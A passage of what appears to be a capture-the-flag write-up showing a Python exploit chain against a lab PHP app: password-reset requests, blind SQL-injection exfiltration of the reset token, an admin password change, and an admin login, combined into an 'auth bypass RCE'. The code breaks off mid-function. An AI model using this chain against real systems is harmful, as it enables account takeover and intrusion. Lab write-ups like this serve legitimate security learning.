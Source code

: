 ```python
    
    return result


```

3 - Query `doChangePassword.php `to change the password for the admin user.

```python
def change_password(token, new_password):
    data = {"token": token, "password": new_password}
    response = SESSION.post(BASE_URL + DO_CHANGE_PASSWORD, params=data)
    if "Password Changed" not in response.text:
        return False
    return True
```

4 - Login as admin.

```python
# Step 4
def login_user(session, username, password):
    success = False
    data = {"username": username, "password": password}
    response = session.post(BASE_URL + LOGIN_PAGE, data=data)
    if "Success" in response.text:
        success = True
        match = re.findall(r"FLAG1: (\w*)?", response.text)
        if(match):
            print(f"Flag1: {match[0]}")
    return success
```

5 - Combine all that to get the auth bypass RCE: 

```python
import requests
from concurrent.futures import ThreadPoolExecutor
import string 
import sys 
import re

BASE_URL = "http://securecode01"
LOGIN_PAGE = "/login/checkLogin.php"
RESET_PASSWORD = "/login/resetPassword.php"
DO_CHANGE_PASSWORD = "/login/doChangePassword.php"
VIEW_ITEM_PAGE = "/item/viewItem.php"

SESSION = requests.Session()

# Step 1
def request_reset(username):
    data = {"username": username}
    response = SESSION.post(BASE_URL + RESET_PASSWORD, data=data)
    assert "Success" in response.text, "Reset request did not complete successfully."
# Step 3
def change_password(token, new_password):
    data = {"token": token, "password": new_password}
    response = SESSION.post(BASE_URL + DO_CHANGE_PASSWORD, params=data)
    if "Password Changed" not in response.text:
        return False
    return True

# Step 2
def sqli_exfil_character(session, payload):
    data = {"id": payload}
    response = session.get(BASE_URL + VIEW_ITEM_PAGE, params=data, allow_redirects=False)
```